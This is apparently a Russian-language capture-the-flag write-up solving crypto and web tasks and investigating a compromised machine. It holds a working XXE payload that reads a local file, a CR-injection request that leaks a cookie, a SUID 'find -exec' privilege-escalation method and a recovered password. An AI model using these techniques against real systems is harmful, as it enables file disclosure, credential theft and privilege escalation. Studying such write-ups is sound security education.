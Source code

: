 # Crypto 1
Мы видим, что в коде ничего случайно не генерируется, и все переменные нам уже даны, поэтому алфавит будет одинаковый
при разных запусках. Сгенерируем алфавит и по нему проведём замену шифрованного текста.
Код приведён в файле crypto1.py

# Crypto 2
Рассмотрим код задания. При запросе на адрес /guess_bit мы передаем индекс бита флага, а в ответ нам возвращается какое-то число.
Если бит равен единице, то нам возвращается pow(7, getPrime(300), n) (n дан в начале файла), если бит равен нулю то возращается случайное число
от n пополам до n.

То есть если бит равен нулю, нам никак не может вернуться число меньшее чем n//2. Используем это для решения.
Для каждого бита будем обращаться к серверу x раз, если нам хоть раз выпало число, меньшее чем n//2, значит этот бит равен единице,
в ином случае бит равен нулю. Таким образом получаем все биты флага и получаем флаг.
Код для вычисления прилагается в файле crypto2.py

# Web 1

Рассмотрим исходный код страницы. Основной скрипт лежит в файле script.js.
При нажатии на кнопку "Calculate!" отправляется запрос по вебсокету на сервер, запрос шифруется с помощью AES.
В функции calculate мы можем увидеть формат запроса:
```
{format: 'json', data: {countries: countries (array), startdate: startDate (string), enddate: endDate (string), resttype: restType (int)}}
```
Заметим, что мы отправляем формат, в который кодируются данные, по стандарту это JSON. Изменим его на XML и проверим, обрабатывает ли сервер запросы такого формата.

Используя инструменты разработчика Chrome, перепишем обработчик событий, который принимает сообщения от вебсокета следующим образом:
```
socket.addEventListener('message', (event) => {
  if (event.data == 'connected') return;
  let data = event.data;
  console.log(data)
});
```
для того, чтобы сразу можно было видеть данные пришедшие с сервера.

В функции calculate заменим format: 'json' на format: 'xml'.
Теперь нажав на кнопку "Calculate!", получаем в консоли ошибку с сервера:
```
{"error":"Error: XML must be a string or buffer\n    at Object.module.exports.fromXml ...
```
Это показывает, что сервер умеет обрабатывать XML, просто мы ему отправили не XML, из-за этого и возникла ошибка.

В том словаре, который мы отправляем, содержатся только ключи format и data. Этот словарь мы отправляем в формате JSON. Из этого можно понять, что сервер при обработке
сначала получит словарь с помощью JSON, посмотрим на значение под ключом format, и на основании этого будет раскодировать data. Таким образом, в data мы можем положить
наши данные в xml формате. Воспользуемся онлайн конвертером JSON в XML(https://www.convertjson.com/json-to-xml.htm), преобразуем данные, которые мы обычно отправляем в json, в xml,
и отправим это на сервер, чтобы проверить, действительно ли мы можем в data положить данные в xml формате. Создадим такой JSON для примера:
```
{"countries": ["1", "2", "3"], startdate: "1", enddate: "1", resttype: 1}
```
(также мы заранее проверили, что отправка таких данных в JSON не приводит к ошибке, и все верно обрабатывается). С помощью онлайн-конвертера получили следующий XML:
```
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <countries>1</countries>
  <countries>2</countries>
  <countries>3</countries>
  <startdate>1</startdate>
  <enddate>1</enddate>
  <resttype>1</resttype>
</root>
```
Изменим в script.js 83 строку на ```let data = JSON.stringify(encrypted({format: 'xml', data: \`<?xml version="1.0" encoding="UTF-8" ?><data><countries>1</countries><countries>2</countries><countries>3</countries><startdate>1</startdate><enddate>1</enddate><resttype>1</resttype></data>\`}));```

(также заменяем <root> на <data>, потому что наши данные хранятся под ключом data)

В консоли видем зашифрованный ответ, используя функцию decrypt расшифруем его, и получаем:
```
{"format":"xml","data":"<?xml version=\\"1.0\\" encoding=\\"UTF-8\\"?>\\n<data>\\n  <countries>1</countries>\\n  <countries>2</countries>\\n  <countries>3</countries>\\n  <startdate>1</startdate>\\n  <enddate>1</enddate>\\n  <resttype>1</resttype>\\n  <price>0</price>\\n</data>\\n"}
```

Это значит что сервер верно обрабатывает XML.
Теперь, так как мы можем вставлять любой XML, воспользуемся уязвимостью xxe.

Добавим в наш XML строчку: 
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
это нам позволит прочитать содержимое файла flag.txt, и затем, если мы где-то
в xml вставим '&xxe;', то оно автоматически заменится на содержимое файла.

Так как сервер нам отправляет все данные что мы ему прислали в ответ, поместим '&xxe;' в первый элемент списка countries.
Итоговый XML выглядит вот так.

```
<?xml version="1.0" encoding="UTF-8" ?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///flag.txt"> ]><data><countries>&xxe;</countries><countries>2</countries><countries>3</countries><startdate>1</startdate><enddate>1</enddate><resttype>1</resttype></data>
```

Получаем ответ от сервера:
```
{"format":"xml","data":"<?xml version=\\"1.0\\" encoding=\\"UTF-8\\"?>\\n<!DOCTYPE foo [\\n<!ENTITY xxe SYSTEM \\"file:///flag.txt\\">\\n]>\\n<data>\\n  <countries>nto{w3bs0ck3ts_plu5_xx3_1s_l0v3}\\n</countries>\\n  <countries>2</countries>\\n  <countries>3</countries>\\n  <startdate>1</startdate>\\n  <enddate>1</enddate>\\n  <resttype>1</resttype>\\n  <price>0</price>\\n</data>\\n"}
```

В первом элементе списка countries лежит флаг.

# Web 2

Проанализируем исходный код. Когда пользователь авторизован, делается запрос на второй сервер в функции make_request, туда мы отправляем наш никнейм и флаг в cookies.
Для формирования запроса используется обычная f-строка, в которую вставляется наш username, соответственно в username можно вставлять потенциально вредоносные строчки.
После этого мы получаем ответ от второго сервера, который возвращает Hello, {username} если флаг совпал или I don't trust you если флаг не совпал.

Воспользуемся программой Burpsuite. Сначала скопируем запрос который отправляется на 2 сервер, и попробуем его повторить, вставив случайный логин и флаг.
Например:
```
GET / HTTP/1.1\r\nHost: 0.0.0.0:3001\r\nCookie: username=abc;flag=abc\r\n\r\n
```

Мы получаем обычный ответ:
```HTTP/1.1 200 OK
Content-Length: 18
Content-Type: text/html; charset=utf-8
Date: Thu, 23 Mar 2023 12:59:24 GMT
Server: waitress

I don't trust you!
```

В запросах для переноса строки используется \r\n. Мы можем испортить запрос, вставив в юзернейм \r (без \n, тогда будет ошибка плохого переноса)
Отправим такой запрос на сервер, и получаем ответ:
```HTTP/1.0 400 Bad Request
Connection: close
Content-Length: 109
Content-Type: text/plain; charset=utf-8
Date: Thu, 23 Mar 2023 13:01:04 GMT
Server: waitress

Bad Request

Bare CR or LF found in header line "Cookie: username=abc
;flag=abc"

(generated by waitress)
```
Мы видим, что сервер нам отправил ошибку, и при этом вставил часть запроса, вместе с флагом, который мы отправляли.

Теперь нам нужно зарегистрировать любого пользователя и добавить в конце юзернейма \r.
Мы не можем зарегистрировать его через обычную форму авторизации, так как тогда \r посчитается как два символа: слэш и r, а не перенос каретки.
Перехватим с помощью Burpsuite запрос регистрации, отправим его в Repeater, отредактируем в нем логин например на abc\r и снова отправим на сервер. Затем мы получим сессию, зайдем под ней
в браузер, и получим такой ответ:
```
Bad Request Bare CR or LF found in header line "Cookie: username=abc ;flag=NTO{request_smuggling_917a34072663f9c8beea3b45e8f129c5}" (generated by waitress)
```
Здесь и найдем флаг.

# Вторая часть

Злоумышленник попал на систему благодаря вредоносному коду, внутри запущенного маинкрафта. Мы обнаружили этот код, когда реверсили игру с помощью ***jd-gui***.
Видно, что было создано сокет подключение, по которому отсылались команды, которые исполнялись в ***/bin/bash*** *(screenshot_3)*
Таким образом злоумышленник попал в систему.

Запустив скрип linpeas, мы обнаружили, что возможна экалация привелегий с помощью команды ***find***.*(screenshot_2)*
Это произошло, протому что root запустил команду ```chmod +s /bin/bash```, которая названия бит ***SUID***.
Эскалация привелегий происходит таким образом: ```find something -exec 'command'``` В данном случае command будет исполнена от имени рута, привелегии получены

Прочитав bash_history root, стало понятно, что был запущен keyloger, который записывал логи в файл */var/log/logkeys.log*
Прочитав файл, была замечена странная строчка, похожая на ввод пароля, мы предположили, что это пароль от *keepass*, который был в системе.
Собрав пароль (получилось *1_D0N7_N0W_WHY_N07_M4Y83_345Y*), вошли в keepass, где увидели, что пароль подписан, как windows rdp, что позволяет предположить, что данный пароль от протокола удаленного доступа. *(screenshot_1)*
